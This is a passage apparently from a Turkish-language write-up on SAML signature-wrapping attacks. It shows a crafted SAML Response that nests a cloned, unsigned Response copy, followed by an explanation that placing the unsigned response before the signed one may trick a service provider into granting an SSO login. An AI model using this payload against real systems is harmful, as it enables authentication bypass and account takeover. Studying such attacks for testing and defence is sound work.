 ```
    </Subject>
    <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
      <AudienceRestriction>
        <Audience>https://service-provider.com</Audience>
      </AudienceRestriction>
    </Conditions>
    <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
      <AuthnContext>
        <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
      </AuthnContext>
    </AuthnStatement>
  </Assertion>
  <!-- Klonlanmış, imzasız Response kopyası -->
  <Response>
    <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
    <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
      <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    </Status>
    <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
      <Issuer>https://identity-provider.com</Issuer>
      <Subject>
        <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
        <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
          <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
        </SubjectConfirmation>
      </Subject>
      <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
        <AudienceRestriction>
          <Audience>https://service-provider.com</Audience>
        </AudienceRestriction>
      </Conditions>
      <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
        <AuthnContext>
          <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
        </AuthnContext>
      </AuthnStatement>
    </Assertion>
  </Response>
</Response>
```
Yukarıdaki örnekte, orijinal Response içindeki tüm SAML öğeleri korunmuş ve klonlanmış bir Response kopyası imzasız olarak eklenmiştir. Hem orijinal hem de klonlanmış Response, aynı kimlik sağlayıcı tarafından üretilmiş Assertion'ları içermektedir. Burada yaptığımız imzasız bir response'u doğru response ve imzadan önce göndererek SP'den yetki almaya çalışıp SSO ile giriş yapabilmektir.
